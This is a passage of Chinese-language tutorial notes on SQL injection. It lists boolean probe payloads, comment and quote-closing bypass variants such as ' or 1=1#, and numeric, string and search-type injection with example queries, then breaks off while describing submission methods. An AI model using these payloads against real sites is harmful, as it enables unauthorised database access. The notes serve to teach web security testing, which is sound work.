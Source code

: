 ```
#如果返回不同的页面， 那么说明存在 SQL 注入漏洞。
```
<a name="hntzm"></a>
### 两种方法的组合变种
```
'and 1=1 		/ and 1=2
'and '1'='1 	/ and '1'='2
'and 1 like 1	/ and 1 like 2
```
<a name="w7s7g"></a>
### 更多方法组合的常用判断语句
在插入的注入语句后面，增加`-+`或`#`，用以注释掉后面的正常语句<br />`#`有时会被过滤，因此可以使用url编码，将`#`表文`%23`<br />单引号也有可能会被过滤，可以换成双引号<br />可以在引号后加一两个括号，用以实现可能的语句闭合，如
```
or 1=1–+
or 1=1#
or 1=1%23
'or 1=1–+
"or 1=1–+
)or 1=1–+
')or 1=1–+
") or 1=1–+
"))or 1=1–+
```
<a name="QGi9v"></a>
## 注入分类
<a name="beXGn"></a>
### 数字型注入：`or 1=1`
当输入的参数为整型时，如ID、年龄、页码等，如果存在注入漏洞，则可以认为是数字型注入。<br />这种数字型注入最多出现在ASP、PHP等弱类型语言中，弱类型语言会自动推导变量类型，<br />例如，参数id=8，PHP会自动推导变量id的数据类型为int类型，那么`id=8 and 1=1`，则会推导为string类型，这是弱类型语言的特性。<br />而对于Java、C#这类强类型语言，如果试图把一个字符串转换为int类型，则会抛出异常，无法继续执行。所以，强类型的语言很少存在数字型注入漏洞。
<a name="EP7lG"></a>
### 字符型注入：`' or 1=1#`
当输入参数为字符串时，称为字符型。数字型与字符型注入最大的区别在于：数字型不需要单引号闭合，而字符串类型一般要使用单引号来闭合。
<a name="OupSx"></a>
### 搜索型注入：` %xxx% or 1=1 #%'`
当在搜索框搜索的时候，称为搜索型。搜索类型一般要使用百分号来闭合。
```sql
select * from 表名 where 字段名 like '%（对应值）%'; # 源
select * from 表名 where 字段名 like '%（对应值）or 1=1 #% %'; # 目标
```
<a name="ED7tx"></a>
### XX型注入： `xx') or 1=1#`
这种情况很少见，是程序员不规则操作造成的，没有找到例子。
<a name="KEsnK"></a>
## 注入提交方式
<a name="s3WFR"></a>
### 三种方式注入方法
<a name="iE6Ff"></a>
#### post
可通过安装火狐浏览器插件（hackbar）或 Burp 工具来完成
<a name="ZKhqy"></a>
#### get
一般直接通过浏览器地址栏提交
<a name="mT7sA"></a>
#### cookie